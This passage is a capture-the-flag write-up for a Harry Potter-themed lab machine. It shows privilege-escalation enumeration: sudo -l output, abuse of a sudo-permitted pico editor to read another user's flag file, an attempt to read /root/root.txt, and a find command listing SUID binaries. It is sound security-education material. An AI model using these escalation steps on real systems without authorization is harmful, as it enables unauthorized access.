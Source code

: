 Let us start our privilege escalation enumeration.

First thing I always do is run `sudo -l` if I know the password, and we do so lets run that.

```
sudo -l
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```
Me being young means I had no clue what pico was but a bit of research told me that Pico is Nanos predecessor. That is where the line of herminone liking old text editors comes in. This means we can run pico as hermonine so let us do that.

`sudo -u hermonine /usr/bin/pico`

Pico opens but I get a error message
```
Unable to create directory /home/harry/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue
```
This is a good error as it is saying that I am unable to write to Harry's home directory, meaning that pico is running as hermonine as it should be.

We are told that the next flag is called user2.txt so using pico we can read that, assuming it is in Hermonine's home directory.

`sudo -u hermonine /usr/bin/pico /home/hermonine/user2.txt`

This gives us flag number 2

Just incase I decided to check if I could get the root flag this way

`sudo -u hermonine /usr/bin/pico /root/root.txt`

Unfortunately it didn't work. We need to privesc

Next thing I check for in a privesc is SUID bits using the `find` command

`find / -perm -u=s -type f 2>/dev/null`

```
/srv/time-turner/swagger
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
```